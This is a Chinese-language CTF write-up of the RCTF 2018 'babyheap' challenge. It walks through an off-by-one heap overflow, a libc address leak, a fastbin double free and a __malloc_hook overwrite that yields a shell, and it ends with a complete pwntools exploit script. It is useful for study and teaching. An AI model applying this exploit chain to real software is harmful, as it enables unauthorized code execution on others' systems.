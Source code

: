 # RCTF babyheap
## Author: fanda

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下**securisecctf队**写的[原wp](https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/)的地址，我在这里配合这篇wp再解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>拿到二进制文件后常规检查一下，可以看到程序本身所有的保护都开了，而libc有一个没开，这意味这我们有改写libc的GOT表的权限，在这里我们可以修改__malloc_hook。</font></br>

![babyheap1]()

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用IDA打开附带的libc.so.6，搜索字符串，跟踪/bin/sh，可以看到从**0x4526a**地址处开始有调用execve("/bin/sh")，因此这里就是我们用来getshell的gadget了；用'objdump -R libc.so.6 | grep hook'命令得到__malloc_hook的地址:**0x3c3ef0**</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们开始分析这个程序，很典型的堆题套路，漏洞点就在alloc的时候，输入堆块内容的时候存在溢出最后一字节的可能性:</font></br>

```C
__int64 __fastcall set_chunk(__int64 chunk, unsigned int size)
{
  char buf; // [sp+13h] [bp-Dh]@2
  unsigned int i; // [sp+14h] [bp-Ch]@1
  __int64 v5; // [sp+18h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  for ( i = 0; i < size; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      put_error((__int64)"read() error");
    *(_BYTE *)(chunk + i) = buf;
    if ( buf == 10 )
      break;
  }
  *(_BYTE *)(i + chunk) = 0;
  return *MK_FP(__FS__, 40LL) ^ v5;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>64位下利用off-by-one漏洞需要分配一个MINSIZE-8的大小，（不懂原理的可以先看[这里](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/ "sploitfun")）然后就可以在8字节覆盖完了堆的pre_size后，剩下的溢出的最后一个NULL字节覆盖size的最低地址，抹掉了prev_inuse的标志位，就可以让allcator误以为前面的堆块已经被释放了，触发合并操作，然后配合double-free就可以为所欲为了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有了利用思路后，我们首先分配四个堆块，并且尝试泄露libc地址。</font></br>

```python
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有一点需要注意的是程序内部记录堆块和内存中真正bins里的记录是不一样的，比如分配完之后链表是这样的:</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e400	0x000055f71691e500
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了0号和1号堆块之后是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x0000000000000000	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们重新申请一块0x78(MINSIZE-8)的内存之后实际上分配过来的是原来的1号堆块，但是程序记录时重新将这个堆块标记为0：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如上，这就像是链表中原先1号堆块被放到了0号，不过这么理解不太好。实际上是分别释放完了堆块0和1以后（实际bins是向前插入），内存中bins是：{1，0，...}，然后我们再次申请跟1相同大小的内存块的时候系统会直接返还给之前的堆块给我们也就是堆块1，然而这个堆块1会被程序记录为0。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>好了，废话有点多，接下来我们分配的是MINSZIE-8大小的堆块，所以实际上存在8字节可以覆盖下一个堆块（堆块2）的pre_size，然后NULL byte可以覆盖size的pre_inuse标志，当我们写入0x70*'a'+p64(0x180)的时候，下一个堆块的pre_size被修改为0x180,然后pre_inuse被清除，这就相当于欺骗了malloc以为之前有一个0x180大小的已经被释放的堆块，然后我们delete堆块2，malloc就会把这两个堆块合并起来，就会存在一个0x280的大堆块。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来再分配一个0xf0大小的堆块，会被记录为1号，但是在内存里会被放在1号堆块之前的位置，这时候链表是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x000055f71691e400
0x511654eb7010:	0x0000000000000000	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000

pwndbg> x/20xg 0x000055f71691e400
0x55f71691e400:	0x4141414141414141	0x4141414141414141
0x55f71691e410:	0x4141414141414141	0x4141414141414141
0x55f71691e420:	0x4141414141414141	0x4141414141414141
0x55f71691e430:	0x4141414141414141	0x4141414141414141
0x55f71691e440:	0x4141414141414141	0x4141414141414141
0x55f71691e450:	0x4141414141414141	0x4141414141414141
0x55f71691e460:	0x4141414141414141	0x4141414141414141
0x55f71691e470:	0x4141414141414141	0x4141414141414141
0x55f71691e480:	0x4141414141414141	0x4141414141414141
0x55f71691e490:	0x4141414141414141	0x4141414141414141
pwndbg> 
0x55f71691e4a0:	0x4141414141414141	0x4141414141414141
0x55f71691e4b0:	0x4141414141414141	0x4141414141414141
0x55f71691e4c0:	0x4141414141414141	0x4141414141414141
0x55f71691e4d0:	0x4141414141414141	0x4141414141414141
0x55f71691e4e0:	0x4141414141414141	0x4141414141414141
0x55f71691e4f0:	0x0000000000000000	0x0000000000000181
0x55f71691e500:	0x00007f1e8aa59b78	0x00007f1e8aa59b78
0x55f71691e510:	0x4242424242424242	0x4242424242424242
0x55f71691e520:	0x4242424242424242	0x4242424242424242
0x55f71691e530:	0x4242424242424242	0x4242424242424242

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来输入0号堆块的内容，就会泄露出main_arena的地址了，再进行一些计算就能算出libc_base的实际地址，绕过ASLR：</font></br>

```C
 0x55f71690f000     0x55f71693f000 rw-p    30000 0      [heap]
 0x7f1e8a695000     0x7f1e8a855000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来进行如下操作：</font></br>

```python
delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了堆块1号（内存实际位置在0号堆块之前），下面三次alloc都会重新返回刚释放的堆块的地址。在第四次alloc的时候，会把0号堆块切割一下返回分配出来，并被设置为5号堆块，这个时候如果我们free堆块5号和堆块0号（为什么可以free堆块0？因为程序并不知情已经被合并到一个大空闲块了，但是链表记录还在:），相当于对同一个堆块free了两次，出现了double free漏洞，这里我们再free一下4号绕过简单的double free检测，然后就可以利用了：</font></br>

```python
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后就得到shell了，完整脚本如下：</font></br>

Exploit脚本：
=========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  r = process('./babyheap')
  context(log_level='debug')
  gdb.attach(r)
else:
  r = remote('babyheap.2018.teamroir.cn',3154)

def alloc(size, payload):
        r.sendlineafter('choice: ','1')
        r.sendlineafter('please input chunk size: ',str(size))
        r.sendafter('input chunk content: ',payload)
def show(index):
        r.sendlineafter('choice: ','2')
        r.sendlineafter('please input chunk index: ',str(index))
def delete(index):
        r.sendlineafter('choice: ','3')
        r.sendlineafter('please input chunk index: ',str(index))

libc = ELF('./libc.so.6')
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))

delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60) 
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()

```
